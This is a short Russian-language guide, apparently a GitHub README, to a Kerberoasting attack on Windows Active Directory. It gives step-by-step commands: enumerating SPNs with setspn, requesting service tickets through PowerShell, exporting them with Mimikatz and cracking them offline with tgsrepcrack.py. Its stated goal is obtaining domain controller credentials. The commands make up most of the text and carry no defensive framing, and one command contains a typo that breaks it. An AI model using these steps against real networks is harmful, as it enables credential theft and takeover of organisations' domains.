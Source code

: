 # Kerberoasting

**Kerberoasting attack guide**

**Инструкция:**

- Проверяем имеющиеся в системе билеты.

`PS C:\ klist`

- Получаем SPN записи с домена.

`PS C:\ setspn -t <DomainName> -Q */*`

- Добавляем в систему новый тип для хранения последующих записей.

`PS C:\ Add-Type -AssemlyName System.IdentityModel`

- Принудительно извлекаем запись MSSQL сервера.

`PS C:\ New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList <SPN_of_Service>`

- Выгружаем билеты в файлы с помощью Mimikatz.

`Mimikatz # kerberos::list /export`

- Хэш необходимого нам билета перебираем с помощью словаря.

`# python3 tgsrepcrack.py <password_list> <mimikatz_exported_ticket>`


**Результат:**

Учетные данные контроллера домена.
